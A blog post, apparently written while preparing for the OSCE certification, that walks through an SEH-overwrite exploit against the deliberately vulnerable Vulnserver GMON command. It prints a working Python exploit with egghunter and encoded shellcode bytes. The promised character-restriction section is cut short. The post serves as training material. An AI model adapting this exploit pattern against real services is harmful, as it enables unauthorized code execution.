 ```yaml
---
layout: single
title: CTP/OSCE Prep -- 'GMON' Egghunter With Character Restrictions
date: 2019-5-28
classes: wide
header:
  teaser: /assets/images/CTP/immunity.jpg
tags:
  - buffer overflow
  - Windows
  - x86
  - shellcoding
  - exploit development
  - assembly
  - python
  - OSCE
  - CTP
  - egghunter
  - SEH
--- 
```

![](/assets/images/CTP/1920x1080_Wallpaper.jpg)

## Introduction

This series of posts will focus on the concepts I'm learning/practicing in preparation for [CTP/OSCE](https://www.offensive-security.com/information-security-training/cracking-the-perimeter/). In this series of posts, I plan on exploring:
+ fuzzing,
+ vanilla EIP overwrite,
+ SEH overwrite, and
+ egghunters.

Writing these entries will force me to become intimately familiar with these topics, and hopefully you can get something out of them as well! 

In this particular post, we will become acquainted with an SEH-based overflow with the `GMON` command/parameter in Vulnserver. 

If you have not already done so, please read the first post of this series so that you can setup your environment, setup and use `boofuzz`, and become acquainted with some of the stack-based overflow concepts that are still relevant in this post. You can do so [here](https://h0mbre.github.io/Boofuzz_to_EIP_Overwrite/).

**This post will assume the reader is already familiar with how to attach processes in Immunity, use boofuzz, search for bad characters, and other knowledge domains covered in the first post of the series.**

## Background

If you have not done so, it's probably best that you read our previous egghunter approach to exploiting the 'GMON' command in Vulnserver with an SEH-based exploit [here](https://h0mbre.github.io/Egghunter_GMON_Vulnserver/). 

In summary, our exploit code looked like this:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

Seh = '\x2b\x17\x50\x62'
nSeh = '\xeb\x06\x90\x90'
egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x45\x47\x47\x48\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

egg = 'EGGHEGGH'
shellcode = ("\xdb\xcc\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x52\xbf\x36\x08\x50"
"\xc1\x31\x7a\x17\x83\xc2\x04\x03\x4c\x1b\xb2\x34\x4c\xf3\xb0"
"\xb7\xac\x04\xd5\x3e\x49\x35\xd5\x25\x1a\x66\xe5\x2e\x4e\x8b"
"\x8e\x63\x7a\x18\xe2\xab\x8d\xa9\x49\x8a\xa0\x2a\xe1\xee\xa3"
"\xa8\xf8\x22\x03\x90\x32\x37\x42\xd5\x2f\xba\x16\x8e\x24\x69"
"\x86\xbb\x71\xb2\x2d\xf7\x94\xb2\xd2\x40\x96\x93\x45\xda\xc1"
"\x33\x64\x0f\x7a\x7a\x7e\x4c\x47\x34\xf5\xa6\x33\xc7\xdf\xf6"
"\xbc\x64\x1e\x37\x4f\x74\x67\xf0\xb0\x03\x91\x02\x4c\x14\x66"
"\x78\x8a\x91\x7c\xda\x59\x01\x58\xda\x8e\xd4\x2b\xd0\x7b\x92"
"\x73\xf5\x7a\x77\x08\x01\xf6\x76\xde\x83\x4c\x5d\xfa\xc8\x17"
"\xfc\x5b\xb5\xf6\x01\xbb\x16\xa6\xa7\xb0\xbb\xb3\xd5\x9b\xd3"
"\x70\xd4\x23\x24\x1f\x6f\x50\x16\x80\xdb\xfe\x1a\x49\xc2\xf9"
"\x5d\x60\xb2\x95\xa3\x8b\xc3\xbc\x67\xdf\x93\xd6\x4e\x60\x78"
"\x26\x6e\xb5\x2f\x76\xc0\x66\x90\x26\xa0\xd6\x78\x2c\x2f\x08"
"\x98\x4f\xe5\x21\x33\xaa\x6e\x8e\x6c\xb5\xa9\x66\x6f\xb5\x34"
"\xcc\xe6\x53\x5c\x22\xaf\xcc\xc9\xdb\xea\x86\x68\x23\x21\xe3"
"\xab\xaf\xc6\x14\x65\x58\xa2\x06\x12\xa8\xf9\x74\xb5\xb7\xd7"
"\x10\x59\x25\xbc\xe0\x14\x56\x6b\xb7\x71\xa8\x62\x5d\x6c\x93"
"\xdc\x43\x6d\x45\x26\xc7\xaa\xb6\xa9\xc6\x3f\x82\x8d\xd8\xf9"
"\x0b\x8a\x8c\x55\x5a\x44\x7a\x10\x34\x26\xd4\xca\xeb\xe0\xb0"
"\x8b\xc7\x32\xc6\x93\x0d\xc5\x26\x25\xf8\x90\x59\x8a\x6c\x15"
"\x22\xf6\x0c\xda\xf9\xb2\x2d\x39\x2b\xcf\xc5\xe4\xbe\x72\x88"
"\x16\x15\xb0\xb5\x94\x9f\x49\x42\x84\xea\x4c\x0e\x02\x07\x3d"
"\x1f\xe7\x27\x92\x20\x22")


buffer = 'A' * (3514 - len(egg + shellcode))
buffer += egg
buffer += shellcode
buffer += nSeh
buffer += Seh
buffer += egghunter
buffer += 'C' * (5012 - len(buffer))


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("GMON /.../" + buffer)
print s.recv(1024)
s.close()
```

Performed the following: 
1. causes an exception by overflowing the application's buffer;
2. the overflow also overwrites the SEH component;
3. we place a `POP POP RET` instruction in the 'Current SE handler' address;
4. the `POP POP RET` instruction places code execution at the pointer pointing towards the next SEH record;
5. this address has been overwritten with instructions to jump forward 6 bytes;
6. after jumping forward 6 bytes, the instruction at this location is an egghunter which will find our shellcode that's been prepended twice with our egg; and finally,
7. execute the shellcode. 

## Self-Imposed Character Restrictions

Luckily for us, our `GMON` overflow only restricted us from using `\x00` bytes, but our goal here is to learn as many tricks as possible before CTP/OSCE, so we'll try to make things a little harder. 

## Big Thanks

To everyone who has published free intro-level 32 bit exploit dev material, I'm super appreciative. Truly mean it. 

## Resources

+ [Corelan SEH](https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/)
+ [Infosec Institute SEH tutorial](https://resources.infosecinstitute.com/seh-exploit/#gref)
+ [sh3llc0d3r's GMON SEH Overwrite Walkthrough](http://sh3llc0d3r.com/vulnserver-gmon-command-seh-based-overflow-exploit/)
+ [Doylersec's LTER SEH Overwrite Walkthrough](https://www.doyler.net/security-not-included/vulnserver-lter-seh)
+ [Capt Meelo's GMON SEH Overwrite Walkthrough](https://captmeelo.com/exploitdev/osceprep/2018/06/30/vulnserver-gmon.html)
+ [Muts' 2004 Exploit](https://www.exploit-db.com/exploits/1378)
+ [Wallpaper](http://i.imgur.com/Mr9pvq9.jpg)
+ [Dimitrios Kalemis Wonderful Blogpost](https://dkalemis.wordpress.com/2010/10/27/the-need-for-a-pop-pop-ret-instruction-sequence/)
+ [Tulpa OSCE Guide](https://tulpa-security.com/2017/07/18/288/)
